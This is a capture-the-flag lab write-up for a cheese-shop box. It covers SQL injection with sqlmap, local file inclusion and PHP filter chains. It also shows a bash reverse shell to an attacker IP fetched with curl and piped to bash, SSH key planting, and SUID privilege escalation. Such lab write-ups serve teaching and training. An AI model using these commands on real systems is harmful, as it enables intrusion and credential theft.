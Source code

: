 ## Target IP: `10.10.111.197`

---

### Environment Setup

Set local variables:

```bash
export IP=10.10.111.197
export LIP=10.6.24.56
```

---

### Recon

Ran a full Nmap scan:

```bash
sudo nmap -sC -sV -T4 -p- -O $IP -oN nmap_scan.txt
```

Started a Nikto scan:

```bash
nikto -h http://$IP
```

Started a ffuf scan:

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/dirb/common.txt -e php
```

Open ports:

- Found a webserver.

The site is a cheese shop. Nothing interesting in the source code. Footer said "info@thecheeseshop.com", added `thecheeseshop.com` to `/etc/hosts`, but it pointed to the same page.

ffuf results:

- `/images` directory with three cheese images.
- Downloaded them all with `wget` for possible stego work later.

---

### Web App Testing

Found a login page. Tried basic SQLi, no success. Decided to throw sqlmap at it anyway.

Saved the login request from Burpsuite into `login.req` and launched sqlmap:

```bash
sqlmap -r login.req --batch --dbs
```

Databases found:

- `information_schema`
- `users`

Pulled tables from `users`:

```bash
sqlmap -r login.req -D users --tables --batch
```

Single table: `users`

Pulled column names:

```bash
sqlmap -r login.req -D users --columns --batch
```

Columns:

- `id`
- `username`
- `password`

Dumped usernames and passwords:

```bash
sqlmap -r login.req -D users -C password,username --dump --batch
```

Result:

| Username | Password |
| --- | --- |
| comte | [REDACTED] |

MD5 hash, didn't crack it yet because there was an easier way in.

---

### Hidden URL & LFI

While sqlmap was running, found an interesting URL:

```
http://thecheeseshop.com/secret-script.php?file=supersecretadminpanel.html
```

Tried basic LFI:

```
file=/etc/passwd
```

Success. Read `/etc/passwd`.

Started fuzzing `file=` parameter:

```bash
ffuf -u "http://thecheeseshop.com/secret-script.php?file=FUZZ" -w lfi-wordlist.txt > lfi_fuzzing.txt
```

Used a wordlist from [here](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt).

Cleaned the fuzzing output:

```bash
awk 'index($0, "Size: 0") == 0' lfi_fuzzing.txt > tmp && mv tmp lfi_fuzzing.txt
awk '{ gsub(/\x1b\[2K/, ""); print }' lfi_fuzzing.txt > tmp && mv tmp lfi_fuzzing.txt
awk '{ sub(/\[Status:.*/, ""); print }' lfi_fuzzing.txt > tmp && mv tmp lfi_fuzzing.txt
awk 'NF' lfi_fuzzing.txt > tmp && mv tmp lfi_fuzzing.txt
```

After cleanup, found:

- `/etc/apache2/mods-enabled/mime.conf`
- `/etc/apache2/ports.conf`
- `/etc/apache2/sites-enabled/000-default.conf`
- `/etc/apt/sources.list`
- `/etc/bash.bashrc`

No real logs found to poison. Wanted to see `login.php` without executing it.

Used PHP filters:

```
php://filter/convert.base64-encode/resource=login.php
```

Decoded it on CyberChef. Found hardcoded database credentials:

- Username: `comte`
- Password: `[REDACTED]`
- Database: `users`

Saw weak input sanitization: strips "OR" from username field, but that was it. Passwords are MD5 hashed. Nothing preventing me from just logging in directly.

---

### Shell Access

Found an exploit path using a filter chain attack.

Made a revshell payload:

```bash
echo "bash -i >& /dev/tcp/10.6.24.56/4444 0>&1" > revshell
```

Generated a PHP filter chain:

```bash
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.6.24.56/revshell|bash` ?>'
```

Got a monstrous chain like:

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|...
```

Set up:

```bash
sudo python3 -m http.server 80
nc -lvnp 4444
```

Triggered the filter chain and caught a shell as `www-data`.

---

### Enumeration and Privilege Escalation

Found `/home/comte/user.txt` — no permissions yet.

Uploaded and ran `linpeas`:

On attack box:

```bash
cp /opt/linpeas/linpeas.sh .
python3 -m http.server 80
```

On victim:

```bash
wget http://10.6.24.56:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Found writable files:

- `/etc/systemd/system/exploit.timer`
- `/home/comte/.ssh/authorized_keys`

Skipped timers for now. Went for the writable SSH keys.

Generated SSH key:

```bash
ssh-keygen -t rsa -b 2048 -f comte-key
```

Pasted the public key into authorized_keys:

```bash
echo "<comte-key.pub contents>" >> /home/comte/.ssh/authorized_keys
```

Logged in as `comte`:

```bash
ssh -i comte-key comte@$IP
```

Read `user.txt`:

```
THM{[REDACTED]}
```

---

### Root Access

Checked sudo permissions:

```bash
sudo -l
```

Allowed to run:

- `/bin/systemctl daemon-reload`
- `/bin/systemctl restart exploit.timer`
- `/bin/systemctl start exploit.timer`
- `/bin/systemctl enable exploit.timer`

Read the service config.

Found that `exploit.service` copied the `xxd` binary to `/opt/` and set the SUID bit. Once the timer fired, anyone could run `/opt/xxd` with root privileges.

Started the exploit timer:

```bash
sudo /bin/systemctl start exploit.timer
```

Waited a few seconds, then:

```bash
cd /opt
ls -l
```

Saw `xxd` with SUID bit set.

Used GTFOBins trick to read root’s files:

```bash
LFILE=/root/root.txt
./xxd "$LFILE" | xxd -r
```

Got root flag:

```
THM{[REDACTED]}
```
